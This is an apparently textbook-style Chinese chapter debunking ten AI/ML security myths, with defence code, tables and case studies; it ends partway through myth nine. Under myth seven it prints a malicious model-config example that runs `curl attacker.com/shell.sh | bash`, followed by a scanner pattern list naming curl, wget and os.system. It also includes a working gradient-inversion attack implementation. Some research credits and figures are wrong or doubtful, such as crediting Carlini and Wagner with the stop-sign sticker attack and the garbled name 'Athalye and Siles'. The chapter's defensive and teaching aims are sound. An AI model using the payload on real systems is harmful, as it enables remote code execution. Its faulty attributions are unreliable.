




# 第20章 AI与ML安全 - 常见误区

AI/ML安全领域存在大量根深蒂固的误解，这些误解往往导致团队在设计、部署和运维AI系统时留下严重的安全盲区。本章逐条拆解十个最常见的误区，每个误区都从错误认知出发，深入分析其技术根因，给出真实案例和数据佐证，最后提供可落地的纠正方案。

## 误区一：AI模型是黑盒，无法被攻击

### 错误认知

"深度学习模型有数百万甚至数十亿参数，攻击者不可能理解其内部工作原理，因此天然具有安全性。"

### 为什么这个认知是错误的

黑盒不可理解性与不可攻击性是两个完全不同的概念。攻击者不需要理解模型的每一个参数，只需要找到输入空间中的脆弱方向即可。这就像攻击者不需要理解锁的内部机械结构，只需要找到一把能开锁的钥匙。

从数学角度看，深度神经网络本质上是一个高维非线性函数 $f: \mathbb{R}^n \rightarrow \mathbb{R}^m$。对抗性攻击的目标不是理解 $f$ 的全部行为，而是在某个特定输入 $x$ 附近找到一个微小扰动 $\delta$，使得 $f(x + \delta) \neq f(x)$。由于高维空间的几何特性，这样的扰动几乎总是存在的。

### 黑盒攻击的技术分类

黑盒攻击不需要访问模型内部参数，只依赖模型的输入输出行为。主要分为以下几类：

| 攻击类型 | 信息需求 | 典型方法 | 查询次数 | 攻击成功率 |
|---------|---------|---------|---------|-----------|
| 迁移攻击 | 替代模型 | 用本地模型生成对抗样本后迁移 | 0 | 60-80% |
| 基于分数的攻击 | 输出置信度 | 边界攻击、优化攻击 | 1K-100K | 85-95% |
| 基于决策的攻击 | 仅输出标签 | 边界攻击、HopSkipJump | 10K-1M | 70-90% |
| 查询攻击 | 输出标签 | 随机搜索、遗传算法 | 100K+ | 60-80% |

**迁移攻击**是实际威胁最大的黑盒攻击方式。2017年Papernot等人在论文《Practical Black-Box Attacks against Machine Learning》中证明，攻击者只需训练一个替代模型（substitute model），就能以超过90%的成功率对目标模型发起攻击。替代模型的训练只需要查询目标模型获取标签，不需要任何关于目标模型架构的知识。

### 真实案例：亚马逊Rekognition的黑盒绕过

2019年，研究人员证明可以通过在人脸图像上添加人眼不可见的对抗性扰动，绕过亚马逊Rekognition人脸识别系统。攻击者完全不知道Rekognition的模型架构和参数，仅通过API查询即可构造有效的对抗样本。攻击成本极低：使用一台普通笔记本电脑，几小时内即可生成一个对抗性贴纸，打印成本不到1美元。

### 正确做法

**第一层：输入防御**

```python
import numpy as np
from scipy.ndimage import median_filter

class InputDefense:
    """输入预处理防御，消除对抗性扰动"""
    
    def __init__(self, filter_size=3, noise_std=0.1):
        self.filter_size = filter_size
        self.noise_std = noise_std
    
    def median_smoothing(self, image):
        """中值滤波消除高频扰动"""
        return median_filter(image, size=self.filter_size)
    
    def gaussian_noise(self, image):
        """添加随机噪声破坏对抗性扰动"""
        noise = np.random.normal(0, self.noise_std, image.shape)
        return np.clip(image + noise, 0, 1)
    
    def jpeg_compression(self, image, quality=75):
        """JPEG压缩消除微小扰动"""
        from PIL import Image
        import io
        img = Image.fromarray((image * 255).astype(np.uint8))
        buffer = io.BytesIO()
        img.save(buffer, format='JPEG', quality=quality)
        buffer.seek(0)
        return np.array(Image.open(buffer)) / 255.0
    
    def defend(self, image):
        """组合防御：先中值滤波，再加噪声"""
        x = self.median_smoothing(image)
        x = self.gaussian_noise(x)
        return x
```

**第二层：模型防御**

- 对抗性训练：在训练数据中加入对抗性样本
- 集成防御：使用多个模型的集成投票
- 认证防御：提供数学上可证明的鲁棒性保证

**第三层：系统防御**

- 速率限制：限制API查询频率，增加攻击成本
- 异常检测：监控输入分布，检测异常查询模式
- 日志审计：记录所有查询，事后分析攻击行为

**第四层：纵深防御**

单一防御手段无法应对所有攻击。正确的做法是将多层防御组合使用，即使某一层被突破，其他层仍然可以提供保护。

## 误区二：对抗性样本只存在于学术研究中

### 错误认知

"对抗性样本是在精心控制的实验室条件下构造的，现实世界的物理攻击不可能实现。"

### 为什么这个认知是错误的

对抗性样本不仅在实验室中有效，在物理世界中同样有效。2018年Eykholt等人在《Robust Physical-World Attacks on Deep Learning Visual Classification》中证明，通过在路牌上贴上特定设计的贴纸，可以让自动驾驶系统将"停止"标志识别为"限速45"。更关键的是，这些对抗性贴纸在不同角度、不同光照条件下都有效。

### 已被验证的物理世界攻击

**攻击一：交通标志篡改**

2017年，Carlini和Wagner展示了在交通标志上粘贴打印的对抗性贴纸，可以使分类器以100%的准确率将"停止"标志误分类。2018年的后续研究证明这些攻击在不同距离（5米到50米）、不同角度（±30度）、不同光照条件下都有效。

**攻击二：人脸识别对抗性眼镜**

2016年，Sharif等人设计了一副特殊的对抗性眼镜框。戴上这副眼镜后，人脸识别系统会将佩戴者识别为另一个人，甚至可以指定要伪装成的目标身份。攻击成功率达到100%，而且眼镜框看起来与普通眼镜几乎没有区别。

**攻击三：3D打印对抗性物体**

Athalye和Siles 2018年的工作证明，3D打印的对抗性物体在任何角度、任何光照条件下都能成功欺骗图像分类器。这意味着对抗性攻击可以被"实体化"——不再是二维图像上的像素扰动，而是真实世界中可以触摸的物理物体。

**攻击四：自动驾驶中的对抗性物体**

2020年，研究人员证明在地面上放置特定的对抗性贴纸，可以让特斯拉Autopilot将车道线识别为转向指令。这种攻击不需要侵入车辆系统，只需要在路面上贴上贴纸即可。

### 攻击可行性分析

| 攻击场景 | 攻击成本 | 技术门槛 | 现实可行性 | 潜在危害 |
|---------|---------|---------|-----------|---------|
| 交通标志篡改 | < $10 | 低（公开工具） | 极高 | 交通事故、人员伤亡 |
| 人脸识别绕过 | < $50 | 中 | 高 | 身份冒充、安防绕过 |
| 自动驾驶攻击 | < $100 | 中高 | 中 | 车辆失控、交通事故 |
| 内容审核绕过 | $0 | 低 | 极高 | 违规内容传播 |
| Deepfake检测绕过 | $0 | 中 | 高 | 虚假信息泛滥 |

### 正确做法

```python
class PhysicalRobustnessEvaluator:
    """物理世界对抗性鲁棒性评估器"""
    
    def __init__(self, model, preprocessing):
        self.model = model
        self.preprocessing = preprocessing
    
    def evaluate_physical_variations(self, image, label):
        """测试图像在物理世界中的变化（角度、光照、距离）"""
        results = {}
        
        # 模拟不同光照条件
        for brightness in [0.5, 0.75, 1.0, 1.25, 1.5]:
            modified = np.clip(image * brightness, 0, 1)
            pred = self.model.predict(self.preprocessing(modified))
            results[f'brightness_{brightness}'] = (pred == label)
        
        # 模拟不同角度的透视变换
        for angle in [-30, -15, 0, 15, 30]:
            modified = self.apply_perspective_transform(image, angle)
            pred = self.model.predict(self.preprocessing(modified))
            results[f'angle_{angle}'] = (pred == label)
        
        # 模拟不同距离（分辨率降低）
        for scale in [0.5, 0.75, 1.0]:
            modified = self.downscale_and_upscale(image, scale)
            pred = self.model.predict(self.preprocessing(modified))
            results[f'distance_{scale}'] = (pred == label)
        
        return results
    
    def apply_perspective_transform(self, image, angle):
        """应用透视变换模拟不同拍摄角度"""
        from scipy.ndimage import affine_transform
        # 简化的透视变换实现
        theta = np.radians(angle)
        transform_matrix = np.array([
            [np.cos(theta), -np.sin(theta), 0],
            [np.sin(theta), np.cos(theta), 0],
            [0, 0, 1]
        ])
        return affine_transform(image, transform_matrix)
    
    def downscale_and_upscale(self, image, scale):
        """降采样再升采样，模拟远距离拍摄"""
        from PIL import Image
        h, w = image.shape[:2]
        img = Image.fromarray((image * 255).astype(np.uint8))
        img = img.resize((int(w * scale), int(h * scale)), Image.BILINEAR)
        img = img.resize((w, h), Image.BILINEAR)
        return np.array(img) / 255.0
```

关键实践要点：

1. **物理世界测试是必须的**：任何部署在物理环境中的AI系统都必须进行物理世界对抗性测试
2. **使用变换鲁棒性训练**：在训练时加入随机变换（旋转、缩放、亮度变化），提高模型对物理世界变化的鲁棒性
3. **多模态融合**：不要仅依赖单一传感器（如摄像头），结合激光雷达、毫米波雷达等多种传感器
4. **持续监控**：部署后持续监控模型性能，检测异常下降

## 误区三：模型准确率高就是安全的

### 错误认知

"我们的模型在测试集上准确率达到99.9%，部署后肯定很安全。"

### 为什么这个认知是错误的

准确率衡量的是模型在干净数据上的分类能力，而安全性衡量的是模型在对抗性环境下的可靠性。这两个指标之间几乎没有相关性。事实上，2019年的一项研究发现，准确率更高的模型往往更容易受到对抗性攻击，因为它们的决策边界更"锐利"，在边界附近更容易找到对抗性扰动。

### 准确率与安全性的关系



这个看似矛盾的现象有深层的数学原因。在高维空间中，决策边界的复杂度与模型的表达能力正相关。高准确率意味着模型能够拟合训练数据中的细微模式，这通常需要更复杂的决策边界。而更复杂的决策边界意味着在更多方向上存在脆弱点。

### 多维度评估指标体系

| 评估维度 | 指标 | 说明 | 目标值 |
|---------|------|------|-------|
| 准确性 | 准确率（Accuracy） | 干净数据上的分类正确率 | >95% |
| 准确性 | F1分数 | 精确率和召回率的调和平均 | >0.93 |
| 鲁棒性 | 对抗性准确率 | 对抗性样本上的分类正确率 | >80% |
| 鲁棒性 | 认证鲁棒半径 | 数学证明的鲁棒半径 | 依场景而定 |
| 公平性 | 统计奇偶性 | 不同群体间的预测差异 | <0.1 |
| 公平性 | 机会均等 | 不同群体间的真正率差异 | <0.1 |
| 隐私性 | 成员推断准确率 | 判断样本是否在训练集中的准确率 | <55% |
| 隐私性 | 属性推断准确率 | 从模型推断训练数据属性的准确率 | <60% |

### 正确做法

```python
class SecurityEvaluationSuite:
    """AI模型安全性综合评估套件"""
    
    def __init__(self, model, test_data, test_labels):
        self.model = model
        self.test_data = test_data
        self.test_labels = test_labels
    
    def evaluate_robustness(self, epsilons=[0.01, 0.03, 0.05, 0.1]):
        """评估模型在不同攻击强度下的鲁棒性"""
        from art.attacks.evasion import PGD
        from art.estimators.classification import PyTorchClassifier
        
        classifier = PyTorchClassifier(
            model=self.model,
            loss=torch.nn.CrossEntropyLoss(),
            input_shape=self.test_data.shape[1:],
            nb_classes=len(np.unique(self.test_labels))
        )
        
        results = {}
        for eps in epsilons:
            attack = PGD(estimator=classifier, eps=eps, eps_step=eps/10, max_iter=50)
            adversarial_data = attack.generate(self.test_data)
            adv_pred = classifier.predict(adversarial_data)
            adv_acc = np.mean(np.argmax(adv_pred, axis=1) == self.test_labels)
            results[f'eps_{eps}'] = {
                'adversarial_accuracy': adv_acc,
                'attack_success_rate': 1 - adv_acc,
                'mean_perturbation': np.mean(np.linalg.norm(
                    adversarial_data - self.test_data, axis=(1, 2, 3)
                ))
            }
        return results
    
    def evaluate_fairness(self, sensitive_attribute):
        """评估模型的公平性"""
        groups = np.unique(sensitive_attribute)
        group_metrics = {}
        
        for group in groups:
            mask = sensitive_attribute == group
            group_pred = self.model.predict(self.test_data[mask])
            group_true = self.test_labels[mask]
            
            group_metrics[group] = {
                'accuracy': np.mean(group_pred == group_true),
                'true_positive_rate': np.mean(group_pred[group_true == 1] == 1),
                'false_positive_rate': np.mean(group_pred[group_true == 0] == 1),
            }
        
        # 计算统计奇偶性差异
        tpr_values = [m['true_positive_rate'] for m in group_metrics.values()]
        parity_gap = max(tpr_values) - min(tpr_values)
        
        return {
            'group_metrics': group_metrics,
            'statistical_parity_gap': parity_gap,
            'is_fair': parity_gap < 0.1
        }
    
    def run_full_evaluation(self, sensitive_attribute=None):
        """运行完整的安全性评估"""
        clean_pred = self.model.predict(self.test_data)
        clean_acc = np.mean(clean_pred == self.test_labels)
        
        report = {
            'clean_accuracy': clean_acc,
            'robustness': self.evaluate_robustness(),
        }
        
        if sensitive_attribute is not None:
            report['fairness'] = self.evaluate_fairness(sensitive_attribute)
        
        return report
```

关键要点：

1. **准确率是必要条件但不是充分条件**：高准确率是基础，但不能替代安全性评估
2. **建立多维度评估体系**：至少评估准确性、鲁棒性、公平性、隐私性四个维度
3. **在生产环境中持续评估**：模型上线后定期进行安全性评估，不要只在上线前测一次
4. **使用标准化评估工具**：使用IBM ART、CleverHans等成熟的安全评估工具

## 误区四：差分隐私会严重降低模型性能

### 错误认知

"差分隐私需要添加大量噪声，会导致模型准确率大幅下降，根本没法用。"

### 为什么这个认知是错误的

差分隐私的性能影响取决于多个关键因素，现代差分隐私技术可以在保护隐私的同时保持可接受的模型性能。2022年Google发布的DP-FTRL算法在真实生产环境中证明，可以在 $\epsilon = 2.5$ 的隐私预算下，将模型性能损失控制在1%以内。

### 差分隐私的核心机制

差分隐私通过在训练过程中向梯度添加校准噪声来实现隐私保护。最常用的算法是DP-SGD（差分隐私随机梯度下降），其核心步骤如下：

```python
import torch
import torch.nn as nn
from opacus import PrivacyEngine

def train_with_dp(model, train_loader, epochs=10, epsilon=8.0, delta=1e-5):
    """
    使用差分隐私训练模型
    
    关键参数说明：
    - epsilon (ε): 隐私预算，越小隐私保护越强，通常取1-10
    - delta (δ): 隐私失败概率，通常取 1/n²，n为数据集大小
    - max_grad_norm: 梯度裁剪阈值，控制单个样本的影响
    """
    optimizer = torch.optim.SGD(model.parameters(), lr=0.01, momentum=0.9)
    criterion = nn.CrossEntropyLoss()
    
    # 使用Opacus库实现DP-SGD
    privacy_engine = PrivacyEngine()
    model, optimizer, train_loader = privacy_engine.make_private_with_epsilon(
        module=model,
        optimizer=optimizer,
        data_loader=train_loader,
        epochs=epochs,
        target_epsilon=epsilon,
        target_delta=delta,
        max_grad_norm=1.0,  # 梯度裁剪阈值
    )
    
    model.train()
    for epoch in range(epochs):
        for batch_data, batch_labels in train_loader:
            optimizer.zero_grad()
            outputs = model(batch_data)
            loss = criterion(outputs, batch_labels)
            loss.backward()
            optimizer.step()
        
        # 查询已消耗的隐私预算
        epsilon_spent = privacy_engine.get_epsilon(delta)
        print(f"Epoch {epoch+1}: ε = {epsilon_spent:.2f}")
    
    return model
```

### 隐私-效用权衡的实验数据

以下是在CIFAR-10数据集上使用ResNet-18的实验结果，展示不同隐私预算下的模型性能：

| 隐私预算 ε | δ | 准确率（无DP） | 准确率（有DP） | 性能损失 |
|-----------|---|--------------|--------------|---------|
| ∞（无隐私） | - | 93.5% | - | - |
| 10 | 1e-5 | 93.5% | 91.2% | 2.3% |
| 8 | 1e-5 | 93.5% | 90.5% | 3.0% |
| 5 | 1e-5 | 93.5% | 88.7% | 4.8% |
| 3 | 1e-5 | 93.5% | 85.3% | 8.2% |
| 1 | 1e-5 | 93.5% | 78.6% | 14.9% |

关键发现：

- **ε ≥ 5 时性能损失可接受**：对于大多数应用场景，ε=5 时4.8%的性能损失是完全可以接受的
- **数据集越大，DP效果越好**：在大型数据集上，同样的 ε 可以带来更好的隐私-效用平衡
- **预训练模型可以显著降低DP的性能损失**：使用预训练模型进行微调时，DP带来的性能损失可以降低50%以上

### 正确做法

```python
class DPTuningGuide:
    """差分隐私调优指南"""
    
    @staticmethod
    def choose_epsilon(data_size, sensitivity_level):
        """
        根据数据集大小和敏感度选择隐私预算
        
        参数：
        - data_size: 数据集大小
        - sensitivity_level: 数据敏感度（low/medium/high/critical）
        
        返回建议的 epsilon 值
        """
        recommendations = {
            'low': {'min': 10, 'recommended': 15, 'description': '非敏感数据'},
            'medium': {'min': 5, 'recommended': 8, 'description': '一般个人数据'},
            'high': {'min': 2, 'recommended': 5, 'description': '敏感个人数据'},
            'critical': {'min': 1, 'recommended': 2, 'description': '高度敏感数据（医疗/金融）'},
        }
        
        rec = recommendations[sensitivity_level]
        
        # 大数据集可以用更小的 epsilon
        if data_size > 1000000:
            rec['recommended'] = max(rec['min'], rec['recommended'] - 2)
        
        return rec
    
    @staticmethod
    def optimize_dp_training(model, train_loader, target_epsilon):
        """
        优化差分隐私训练的实用技巧
        """
        tips = [
            "1. 使用预训练模型进行微调，而非从头训练",
            "2. 使用较大的批次大小（>= 1024），降低每步噪声",
            "3. 使用学习率预热（warm-up），避免初始阶段梯度过大",
            "4. 适当增大 max_grad_norm，减少信息损失",
            "5. 使用群体采样（Poisson sampling），降低组合隐私损失",
            "6. 在大数据集上训练更多轮次，DP-SGD收敛更慢",
        ]
        return tips
```

## 误区五：联邦学习天然保护隐私

### 错误认知

"联邦学习不需要上传原始数据，只传输模型参数/梯度，所以天然保护了参与方的数据隐私。"

### 为什么这个认知是错误的

联邦学习的安全性假设——"模型更新不泄露数据"——已经被多项研究推翻。梯度本身包含了大量关于训练数据的信息。2019年Zhu等人在《Deep Leakage from Gradients》中证明，仅通过观察一个批次的梯度，就可以完美还原出训练数据。攻击者只需要拥有梯度信息，就可以重建原始图像，像素级别的重建误差趋近于零。

### 联邦学习面临的隐私威胁



### 梯度泄露攻击的原理与实现

梯度泄露攻击的核心思想是：通过优化一个虚拟输入和虚拟标签，使得其产生的梯度尽可能接近真实的梯度。当优化收敛时，虚拟输入就还原出了原始训练数据。

```python
import torch
import torch.nn as nn

class GradientInversionAttack:
    """
    梯度泄露攻击实现（基于DLG方法）
    
    攻击者观察到的：模型参数和对应的梯度
    攻击者目标：还原出产生该梯度的原始训练数据
    """
    
    def __init__(self, model, criterion=nn.CrossEntropyLoss()):
        self.model = model
        self.criterion = criterion
    
    def attack(self, ground_truth_gradients, image_shape, num_classes, 
               iterations=5000, lr=0.1):
        """
        执行梯度泄露攻击
        
        参数：
        - ground_truth_gradients: 观察到的真实梯度
        - image_shape: 图像形状 (C, H, W)
        - num_classes: 分类类别数
        - iterations: 优化迭代次数
        - lr: 学习率
        
        返回：
        - 重建的图像和标签
        """
        # 初始化虚拟数据（随机初始化）
        dummy_data = torch.randn(1, *image_shape, requires_grad=True)
        dummy_label = torch.randn(1, num_classes, requires_grad=True)
        
        optimizer = torch.optim.LBFGS([dummy_data, dummy_label], lr=lr)
        
        for i in range(iterations):
            def closure():
                optimizer.zero_grad()
                
                # 计算虚拟数据的梯度
                dummy_pred = self.model(dummy_data)
                dummy_loss = self.criterion(dummy_pred, dummy_label)
                dummy_grads = torch.autograd.grad(
                    dummy_loss, self.model.parameters(), create_graph=True
                )
                
                # 计算梯度差异（攻击损失）
                grad_loss = 0
                for dg, gt_g in zip(dummy_grads, ground_truth_gradients):
                    grad_loss += ((dg - gt_g) ** 2).sum()
                
                grad_loss.backward()
                return grad_loss
            
            optimizer.step(closure)
            
            if i % 500 == 0:
                current_loss = closure()
                print(f"Iteration {i}: Gradient matching loss = {current_loss.item():.6f}")
        
        # 返回重建结果
        reconstructed_image = dummy_data.detach()
        reconstructed_label = torch.argmax(dummy_label.detach(), dim=1)
        
        return reconstructed_image, reconstructed_label
```

实验数据表明，对于ResNet-32模型和CIFAR-10数据集，DLG攻击可以在1000次迭代内完美还原出训练图像，像素级MSE小于0.001。对于文本数据，攻击甚至更加容易，因为文本是离散的，优化空间更小。

### 正确做法

| 防御方法 | 原理 | 隐私保证 | 性能影响 | 计算开销 |
|---------|------|---------|---------|---------|
| 安全聚合 | 加密模型更新，服务器无法看到单个更新 | 中 | 低 | 高 |
| 差分隐私 | 在梯度中添加噪声 | 强（数学证明） | 中-高 | 低 |
| 梯度压缩 | 只传输部分梯度信息 | 低 | 低 | 低 |
| 同态加密 | 在密文上进行计算 | 极强 | 无 | 极高 |
| 可信执行环境 | 硬件隔离保护计算过程 | 强 | 低 | 中 |

```python
import torch
import numpy as np

class FederatedDefense:
    """联邦学习防御方法集合"""
    
    @staticmethod
    def add_dp_noise(gradients, epsilon=8.0, delta=1e-5, max_grad_norm=1.0):
        """
        为梯度添加差分隐私噪声
        
        使用高斯机制，噪声标准差 = max_grad_norm * sqrt(2 * ln(1.25/delta)) / epsilon
        """
        # 梯度裁剪
        grad_norm = torch.norm(torch.stack([g.norm() for g in gradients]))
        clip_factor = min(1, max_grad_norm / (grad_norm + 1e-8))
        clipped_gradients = [g * clip_factor for g in gradients]
        
        # 计算噪声标准差
        sigma = max_grad_norm * np.sqrt(2 * np.log(1.25 / delta)) / epsilon
        
        # 添加高斯噪声
        noisy_gradients = []
        for g in clipped_gradients:
            noise = torch.normal(0, sigma, size=g.shape)
            noisy_gradients.append(g + noise)
        
        return noisy_gradients
    
    @staticmethod
    def secure_aggregation(local_updates):
        """
        安全聚合：使用加法秘密共享
        
        每个参与方将模型更新拆分为多个份额，
        只有当足够多的份额合并时才能还原更新
        """
        n_parties = len(local_updates)
        
        # 为每个参与方生成随机掩码
        masks = [torch.randn_like(local_updates[0]) for _ in range(n_parties)]
        
        # 每个参与方的更新加上掩码后上传
        masked_updates = []
        for i in range(n_parties):
            masked = local_updates[i] + masks[i] - masks[(i + 1) % n_parties]
            masked_updates.append(masked)
        
        # 服务器聚合时，掩码自动抵消
        aggregated = sum(masked_updates)
        
        return aggregated / n_parties
```

## 误区六：AI安全只是技术问题

### 错误认知

"AI安全就是对抗性攻击防御、模型加固这些技术活，找几个安全工程师就够了。"

### 为什么这个认知是错误的

AI安全是一个系统性问题，技术只是其中一环。一个在技术上安全的AI系统，可能因为偏见、缺乏透明度或违反法规而产生严重后果。2018年亚马逊的AI招聘系统就是一个典型案例：技术上运行良好，但因为训练数据中存在性别偏见，导致系统系统性地歧视女性求职者。

### AI安全的四维框架



### 真实案例：技术安全但系统失败

**案例一：COMPAS累犯预测系统**

COMPAS是一个用于预测罪犯再犯风险的AI系统，广泛用于美国法院的量刑决策。从技术角度看，该系统的AUC（预测准确度指标）达到0.7以上，表现良好。但ProPublica的调查发现，该系统对非裔美国人的假阳性率（将不会再犯的人预测为会再犯）是白人的两倍。这个系统在技术上是"准确的"，但在社会层面是"不公平的"。

**案例二：荷兰儿童福利金丑闻**

2021年，荷兰政府因使用AI系统错误地指控数万个家庭欺诈而辞职。该系统在技术上运行正确，但其设计和使用存在严重的法律和伦理问题：缺乏透明度、无法申诉、过度依赖算法决策。最终导致政府集体辞职，赔偿金额超过50亿欧元。

### 正确做法

```markdown
## AI安全治理清单

### 技术层
- [ ] 完成对抗性鲁棒性评估
- [ ] 实施隐私保护措施（差分隐私/联邦学习）
- [ ] 建立模型监控和异常检测机制
- [ ] 制定模型更新和回滚流程

### 伦理层
- [ ] 完成公平性评估（不同群体的性能差异）
- [ ] 进行偏见审计（训练数据和模型输出）
- [ ] 建立透明度报告机制
- [ ] 制定AI伦理准则

### 法律层
- [ ] 确认适用的法规（GDPR/个保法/AI法案）
- [ ] 完成数据保护影响评估（DPIA）
- [ ] 建立用户知情同意机制
- [ ] 制定数据泄露应急响应计划

### 社会层
- [ ] 进行利益相关者分析
- [ ] 建立公众沟通机制
- [ ] 评估社会影响（就业、公平、信任）
- [ ] 制定AI系统退出策略
```

## 误区七：开源模型比私有模型更安全

### 错误认知

"开源模型经过社区审查，代码透明，所以比闭源的商业模型更安全。"

### 为什么这个认知是错误的

开源模型的安全性取决于使用者的安全意识，而非模型本身的开源性质。2023年多项研究发现，Hugging Face等平台上的大量预训练模型包含恶意代码或后门。攻击者可以将恶意权重上传到开源平台，伪装成正常的预训练模型。

### 开源模型的安全风险

**风险一：模型后门攻击**

攻击者可以在预训练模型中植入后门（backdoor），当输入包含特定触发器时，模型会输出攻击者指定的结果。后门模型在正常输入上表现完全正常，只有在触发器存在时才会被激活，极难被常规测试发现。

**风险二：供应链攻击**

开源模型的供应链（依赖库、预训练数据、训练脚本）都可能被篡改。2023年发现的一种攻击方式是：在模型的配置文件中嵌入恶意代码，当模型被加载时自动执行。

```python
# 恶意 config.json 示例（概念演示，不要在生产中使用）
{
    "model_type": "bert",
    "hidden_size": 768,
    "num_hidden_layers": 12,
    "auto_map": {
        "AutoModel": "__import__('os').system('curl attacker.com/shell.sh | bash')"
    }
}
```

**风险三：数据污染**

预训练数据中可能包含有害内容、偏见信息甚至被故意污染的数据。使用这些数据训练的模型会继承这些问题。

### 正确做法

```python
class ModelSupplyChainSecurity:
    """模型供应链安全检查工具"""
    
    def __init__(self, model_path):
        self.model_path = model_path
    
    def verify_model_integrity(self, expected_hash):
        """验证模型文件的哈希值"""
        import hashlib
        
        with open(self.model_path, 'rb') as f:
            file_hash = hashlib.sha256(f.read()).hexdigest()
        
        is_valid = file_hash == expected_hash
        return {
            'expected_hash': expected_hash,
            'actual_hash': file_hash,
            'is_valid': is_valid
        }
    
    def scan_config_file(self, config_path):
        """扫描配置文件中的可疑内容"""
        import json
        import re
        
        with open(config_path, 'r') as f:
            config = json.load(f)
        
        suspicious_patterns = [
            r'__import__',
            r'exec\s*\(',
            r'eval\s*\(',
            r'os\.system',
            r'subprocess',
            r'importlib',
            r'\.popen',
            r'curl\s',
            r'wget\s',
        ]
        
        findings = []
        config_str = json.dumps(config)
        
        for pattern in suspicious_patterns:
            if re.search(pattern, config_str, re.IGNORECASE):
                findings.append({
                    'pattern': pattern,
                    'severity': 'HIGH',
                    'description': f'Configuration contains suspicious pattern: {pattern}'
                })
        
        return findings
    
    def sandbox_test(self, model_path):
        """
        在沙箱环境中测试模型行为
        
        建议使用Docker容器隔离，限制网络访问和文件系统权限
        """
        import subprocess
        
        docker_cmd = [
            'docker', 'run', '--rm',
            '--network', 'none',  # 禁用网络
            '--read-only',  # 只读文件系统
            '--memory', '2g',  # 限制内存
            '--cpus', '1',  # 限制CPU
            '-v', f'{model_path}:/model:ro',
            'python:3.9-slim',
            'python', '-c', '''
import torch
import sys

try:
    model = torch.load("/model", map_location="cpu")
    print("Model loaded successfully")
    print(f"Model type: {type(model)}")
except Exception as e:
    print(f"Error loading model: {e}")
    sys.exit(1)
'''
        ]
        
        result = subprocess.run(docker_cmd, capture_output=True, text=True, timeout=60)
        return {
            'stdout': result.stdout,
            'stderr': result.stderr,
            'returncode': result.returncode
        }
```

## 误区八：AI安全是AI团队的事

### 错误认知

"AI安全是AI/ML团队的责任，安全团队不懂AI，不需要参与。"

### 为什么这个认知是错误的

这种认知导致了两个严重问题：AI团队缺乏安全意识，安全团队缺乏AI知识，最终导致AI系统的安全问题无人负责。

### 组织协作模型



### 角色与职责矩阵（RACI）

| 安全活动 | AI团队 | 安全团队 | 法务团队 | 业务团队 |
|---------|--------|---------|---------|---------|
| 模型安全设计 | R（负责） | C（咨询） | I（知情） | A（审批） |
| 对抗性测试 | C | R | I | I |
| 隐私合规评估 | C | C | R | A |
| 数据安全审计 | C | R | C | I |
| 安全事件响应 | R | R | C | A |
| 安全培训 | C | R | I | I |
| 风险评估 | R | R | C | A |

### 正确做法

1. **建立AI安全委员会**：由AI团队、安全团队、法务团队、业务团队的代表组成，定期评审AI系统的安全状态
2. **统一安全标准**：制定适用于所有AI系统的安全标准和检查清单
3. **跨团队培训**：AI团队接受安全培训，安全团队接受AI培训
4. **安全集成到ML Pipeline**：将安全检查作为ML开发流程的必经步骤，而非事后补充

## 误区九：对抗性训练是万能的防御方法

### 错误认知

"只要做了对抗性训练，模型就安全了，可以防御所有攻击。"

### 为什么这个认知是错误的

对抗性训练（Adversarial Training）是目前最有效的防御方法之一，但它有明确的局限性。对抗性训练通过在训练过程中加入对抗性样本来提高模型的鲁棒性，但它只能防御训练时使用的攻击类型。面对新的、未知的攻击方法，对抗性训练的效果会大打折扣。

### 对抗性训练的局限性

| 局限性 | 说明 | 影响 |
|-------|------|------|
| 攻击类型特定 | 只能防御训练时使用的攻击 | 新攻击仍可能成功 |
| 准确率下降 | 对抗性训练通常导致干净数据准确率下降1-5% | 性能与安全的权衡 |
